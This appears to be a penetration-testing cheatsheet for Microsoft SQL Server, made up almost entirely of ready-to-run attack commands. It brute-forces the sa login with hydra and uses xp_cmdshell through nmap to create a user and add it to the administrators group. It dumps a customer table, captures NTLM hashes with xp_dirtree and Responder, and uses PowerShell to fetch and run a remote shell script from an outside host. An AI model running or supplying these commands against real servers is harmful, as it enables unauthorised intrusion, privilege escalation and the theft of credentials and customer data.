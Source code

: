 # Cheatsheet

## Brute-forcing 

```
 hydra -l sa –P /path/to/rockyou.txt 10.10.10.125 mssql
```
## Nmap
```
nmap –script "ms-sql and not ms-sql-brute" "–script-args=mssql.username=sa,mssql.password=password,ms-sql-config.showall=true,ms-sql-tables.maxdb=0,ms-sql-tables.maxtables=0,ms-sql-xp-cmdshell.cmd=ipconfig /all" -d -oN mssql.nmap -Pn -v -sV –version-intensity 9 -T2 -p T:27900,U:1434 10.33.1.33

nmap -sV -T2 -Pn -n -sS –script=ms-sql-xp-cmdshell.nse -p1433 –script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net user walter P@ssWORD1234 /add" 10.33.1.33

nmap -sV -T2 -Pn -n -sS –script=ms-sql-xp-cmdshell.nse -p1433 –script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net localgroup administrators walter /add" 10.33.1.33

nmap -v -sV –version-intensity 9 -T2 -p T:27900,U:1433 –script ms-sql-query –script-args mssql.username=sa,mssql.password=password,mssql.database=bankdb,ms-sql-query.query="SELECT * FROM tblCustomers" 10.33.1.33
```
## Capture hash 
Run responder and do:
```
xp_dirtree "\\10.10.14.8\test"
```
## Enable xp_cmdshell
`mssqlclient.py`  has `enable_xp_cmdshell`

```
exec sp_configure 'show advanced options', 1
RECONFIGURE
exec sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

```
xp_cmdshell powershell iex(New-Object System.Net.WebClient).DownloadString(\"http://10.10.14.8/shell.ps1\")
```
## Disable xp_cmdshell
```
exec sp_configure 'show advanced options', '1'
RECONFIGURE
exec sp_configure 'xp_cmdshell', '0'
RECONFIGURE
```

## Grant permissions to xp_cmdshell
Let's say we have a user that is not a sysadmin, but is a user of the master database and we want to grant access to run xp_cmdshell:
```
-- add user test to the master database
USE [master]
GO
CREATE USER [test] FOR LOGIN [test]
GO

-- grant execute access to xp_cmdshell
GRANT EXEC ON xp_cmdshell TO [test]
```

## List all databases
```
EXEC sp_databases;
select * from sysobjects where xtype = 'U';
```

## Nmap Enumeration
```
nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip
```

## Connect from Linux

```
sqsh -S someserver -U sa -P poiuytrewq -D bankdb
```